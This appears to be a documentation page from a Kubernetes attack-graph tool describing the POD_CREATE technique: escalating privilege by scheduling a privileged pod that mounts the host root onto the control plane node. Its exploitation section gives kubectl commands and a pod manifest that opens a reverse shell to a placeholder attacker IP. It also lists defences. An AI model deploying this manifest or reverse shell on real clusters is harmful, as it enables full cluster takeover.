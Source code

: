 ```yaml
---
title: POD_CREATE
---
```


<!--
id: POD_CREATE
name: "Create privileged pod"
mitreAttackTactic: TA0004 - Privilege escalation
mitreAttackTechnique: "T1053.007 - Scheduled Task/Job: Container Orchestration Job" 
-->

# POD_CREATE

Create a pod with significant privilege (`CAP_SYSADMIN`, `hostPath=/`, etc) and schedule on a target node via setting the `nodeName` selector.

| Source                                        | Destination                 | MITRE                                                                                    |
| --------------------------------------------- | --------------------------- | ---------------------------------------------------------------------------------------- |
| [PermissionSet](../entities/permissionset.md) | [Node](../entities/node.md) | [Container Orchestration Job, T1053.007](https://attack.mitre.org/techniques/T1053/007/) |

## Details

Given the rights to create a new pod, an attacker can create a deliberately overprivileged pod within the cluster. This will grant the attacker full control over the node on which the pod is scheduled (via any number of container escape techniques). Additionally by setting the `nodeName` selector in the pod spec to the control plane node, the attacker can gain root access to the control plane node and take over the entire cluster!

## Prerequisites

A role granting permission to create pods.

## Checks

Check whether the current account has the ability to create pods, for example using kubectl:

```bash
kubectl auth can-i create pod
```

## Exploitation

Identify the name of the target (e.g control plane) node via:

```bash
kubectl get nodes -o wide --all-namespaces | grep control-plane
```

Create a pod spec for our attack pod (N.B. If your target node is a control plane one you may need to add a [toleration](https://kubernetes.io/docs/concepts/scheduling-eviction/taint-and-toleration/) to this manifest to allow it to be scheduled):

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: control-plane-attack
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: control-plane-attack
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1" ]
  nodeName: < TARGET NODE NAME > 
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

Create the pod via kubectl:

```bash
kubebctl apply -f control-plane-pod-spec.yaml
```

## Defences

### Monitoring

+ Monitor for pod creation from within an existing pod 
+ Monitor privileged pod creation with suspicious command arguments

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

## Calculation

+ [PodCreate](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/pod_create.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Bad Pods](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation#Pod1)
